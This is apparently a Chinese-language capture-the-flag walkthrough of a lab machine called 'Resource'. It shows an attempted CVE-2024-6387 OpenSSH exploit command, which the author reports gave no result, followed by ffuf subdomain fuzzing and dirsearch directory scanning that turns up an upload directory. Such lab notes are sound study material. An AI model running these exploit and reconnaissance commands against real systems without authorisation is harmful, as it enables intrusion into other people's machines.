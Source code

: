 # Resource

端口扫描

![image-20240805150329669](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240805150329669.png)

2222端口运行的openssh版本存在漏洞

https://github.com/asterictnl-lvdw/CVE-2024-6387

```
python CVE-2024-6387.py scan -T 10.10.11.27 -p 2222
```

![image-20240805151546417](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240805151546417.png)

运行poc

```
python CVE-2024-6387.py exploit -T 10.10.11.27 -p 2222 -n tun0
```

![image-20240805160819029](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240805160819029.png)

没有结果

```
ffuf -u http://itrc.ssg.htb -w /home/kali/Desktop/pass/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -fs 0,154 -t 128 -H 'HOST: FUZZ.itrc.ssg.htb' -v
```

![image-20240805160800546](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240805160800546.png)

![image-20240805161319223](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240805161319223.png)

子域名枚举没有收获

测试发现有个upload目录

![image-20240805163619619](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240805163619619.png)



目录扫描

```
dirsearch -u "http://itrc.ssg.htb/" --exclude-status=400,401,403,404
```

![image-20240805164054630](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240805164054630.png)



![image-20240805164153170](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240805164153170.png)



